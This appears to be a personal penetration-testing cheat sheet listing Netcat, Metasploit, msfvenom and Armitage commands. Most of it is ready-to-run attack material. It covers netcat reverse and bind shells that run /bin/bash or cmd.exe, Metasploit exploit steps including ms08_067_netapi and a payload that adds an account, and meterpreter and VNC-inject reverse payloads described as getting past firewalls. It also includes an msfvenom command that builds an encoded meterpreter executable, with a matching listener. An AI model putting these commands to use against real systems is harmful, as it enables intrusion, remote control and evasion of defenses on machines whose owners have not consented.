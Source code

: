 ## Netcat

Installed on all unix by default (macos, linux), default shell command lines.
Can be used like payload and execute a shell in last versions. (on MacOs, can't execute -e directly)

direct connection: when attacker connect and victim listen
reverse connection: when attacker listen and victim connect (not detected by firewalls - antivirus)

Kali:

	nc MACOS/Windows-IP 8888  -e /bin/bash (connect)
	nc  -lvvp 8888 -e /bin/bash (listen)
	
MacOS:

	nc KALI-IP 8888 (connect - cannot execute -e directly)
	nc -l 8888 (listen - cannot execute -e directly)

Windows:

	nc KALI-IP 8888 -e cmd.exe (connect)
	nc  -lvvp 8888 -e cmd.exe (listen)

## Metasploit

sudo msfdb init && msfconsole

Exploits:

	search exploit/osx

	use exploit/osx/...
	show info

	options
	set options value

	set payload [TAB] (payload compatible with exploit)
	set payload osx/meterpreter/reverse_tcp
	options
	show info (payload max space, rank)

	exploit (run exploit & active payload)

	use exploit/windows/smb/ms08_067_netapi (smb exploit)

	use exploit/multi/handler (listener)

## Payloads

Add user:

	set payload windows/adduser
	options
	show target (if don't autodetect)
	set target ...

## Meterpreter:

	set payload windows/meterpreter/bind_tcp (direct connection)
	set payload windows/meterpreter/reverse_tcp (reverse connection (bypass firewall))
	set payload windows/meterpreter/reverse_http (reverse connection - tunelize on http port)

## VncInject:

	set payload windows/vncinject/reverse_tcp (reverse connection -  remote access (visible on target screen))

## Shell:

	set payload windows/shell/reverse_tcp (reverse connection - light payload - shell (used to execute meterpreter))
	send shell on background

## Auxilary:

https://www.offensive-security.com/metasploit-unleashed/auxiliary-module-reference/

	use auxilary/scanner/discovery/arp_sweep (scanner ARP)
	show_info
	set rhosts 10.1.1.0/24
	run

	use auxilary/scanner/smb/pipe_auditor (check if smb is active to run exploit like netapi)

## Add modules to metasploit:

Terminal:

	mkdir /usr/share/metasploit-framework/modules/exploits/custom/
	cd /usr/share/metasploit-framework/modules/exploits/custom/
	wget https://gist.githubusercontent.com/todb-r7/5935519/raw/f18d6b0dcd94d135a567e5b50a9b1cab3a1c5e1b/test_module.rb  (module used for test => https://gist.github.com/todb-r7/5935519)
	
	can add new modules in each directories (exploits/custom, aucilary/custom, etc.) (custom modules have to be in ruby, .rb)
	
Metasploit:

	reload_all (on metasploit console to load new exploit or restart metasploit)
	use exploit/custom/test_module

# External Tools:

## Msfvenom:

Payload generation:

	msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.1.1.12 lport=4545 -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe -o test.exe

	-a: x86/x64
	--platform: platform
	-p: payload
	-lhost: kali ip
	-lport: port
	-e: encoder
	-b: bad caracter to encode

## Metasploit:

	use exploit/multi/handler (listener)
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.1.1.12
	set lport 4545 
	run

## Armitage:

GUI client for Metasploit, automated tools. (not complete like real metasploit)

Can be used for scaning (auxilary modules, nmap, etc...), detect OS and find vulnerabilities for this system, but is better to run the exploits from metasploit command lines.

	Attacks => Find attacks (find vulnerabilities for this system)
	Attacks => Hail Mary  (autopwn - run all compatible exploits - very agressive - should not be used)